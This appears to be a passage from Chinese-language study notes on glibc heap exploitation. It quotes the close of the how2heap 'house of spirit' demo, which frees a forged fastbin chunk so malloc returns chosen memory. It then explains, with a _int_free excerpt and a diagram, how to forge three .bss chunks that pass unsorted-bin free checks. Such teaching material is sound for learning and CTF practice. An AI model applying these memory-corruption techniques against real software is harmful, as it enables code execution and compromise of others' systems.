         fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
            // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
        fake_chunks[9] = 0x1234; // nextsize
    
        fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
        fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
        a = &fake_chunks[2];
    
        fprintf(stderr, "Freeing the overwritten pointer.\n");
        free(a);
    
        fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
        fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
    }

free fastbin检查比较少，参考上文how2heap
free unsorted bin检查比较多

	构造三个堆块绕过free检查，避免unlink出错
	// 在 _int_free 函数中
	if (nextchunk != av->top) {
	  /* get and clear inuse bit */
	  nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
	可以看到free函数对当前的堆块的nextchunk也进行了相应的检查，并且还检查了nextchunk的inuse位，这一位的信息在nextchunk的nextchunk中，所以在这里我们总共要伪造三个堆块。第一个堆块我们构造大小为0x500，第二个和第三个分别构造为0x20大小的堆块，这些堆块的标记位，均为只置prev_inuse为1，使得free不去进行合并操作。如图：
	
	                        bss
	
	name  +------------> +--------+ +------------+
	                     |   0    |
	                     +--------+
	                     |  0x501 |
	ptr   +------------> +--------+
	                     |        |
	free(ptr);           |        |
	                     |        |  fake chunk 1
	                     |        |
	                     |        |
	                     |        |
	                     |        |
	                     |        |
	                     |        |
	name + 0x500  +----> +--------+ +------------+
	                     |   0    |
	                     +--------+
	                     |  0x21  |
	                     +--------+  fake chunk 2
	                     |   0    |
	                     +--------+
	                     |   0    |
	                     +--------+ +------------+